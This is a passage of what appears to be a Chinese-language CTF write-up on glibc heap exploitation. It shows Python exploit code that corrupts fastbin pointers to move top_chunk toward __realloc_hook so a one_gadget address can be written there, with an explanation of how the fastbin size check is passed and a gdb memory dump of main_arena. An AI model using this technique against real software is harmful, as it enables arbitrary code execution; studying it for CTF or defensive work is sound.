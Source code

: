 计划如下: 修改top_chunk地址为`__realloc_hook` 上方附近，然后申请一个区块，覆盖`__realloc_hook`的地址。

代码如下:

```python
def exp(main_arena, libc_base):
    alloc(0x58) # 1
    delete(1)  # 1    

    addr = main_arena + 37             #  0x7ffff7dd1b45
    newtop = main_arena - 0x33         #  0x7ffff7dd1aed
    one = libc_base + one_offset
    log.info("addr: %s" % hex(addr))
    log.info("newtop: %s " % hex(newtop))
    log.info("one: %s" % hex(one))
 
    update(4, 9, p64(addr))
    alloc(0x48)                         # index = 1
    alloc(0x40)                         # index = 2  
    
    update(2, 0x2c, "\x00"*35 + p64(newtop))
```

**代码分析:**

* 代码段1:

```python
alloc(0x58) # 1
delete(1)  # 1
```

这里首先申请一个大小为0x58的块，目的是为了绕过malloc 的安全检查，chunksize 必须与 fastbin_index 相对应，初看 __malloc_hook 附近没有合适的 chunksize，这里需要巧妙的偏移一下。

检查如下:

```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```

校验: 当size是fastbin的情况下，如果从fastbin取出的第一块chunk的(unsigned long)size不属于该fastbin中的时候就会发生memory corruption(fast)错误。 主要检查方式是根据malloc的bytes大小取得index后，到对应的fastbin去找，取出第一块后检查该chunk的size是否属于该fastbin。 

查看其 chunksize 与相应的 fastbin_index 是否匹配，实际上 chunksize 的计算方法是 `victim->size & ~(SIZE_BITS))`，而它对应的 index 计算方法为 `(size) >> (SIZE_SZ == 8 ? 4 : 3) - 2`，这里 64位的平台对应的 SIZE_SZ 是8，则 fastbin_index 为 `(size >> 4) - 2`。 

未分配该块之前 ，我们可以发现:

```
0x7ffff7dd1b28 <main_arena+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b38 <main_arena+24>:	0x0000000000000000	0x00005555557570a0
0x7ffff7dd1b48 <main_arena+40>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b58 <main_arena+56>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b68 <main_arena+72>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b78 <main_arena+88>:	0x0000555555757140	0x00005555557570a0     |   <-   top_chunk 地址 
```
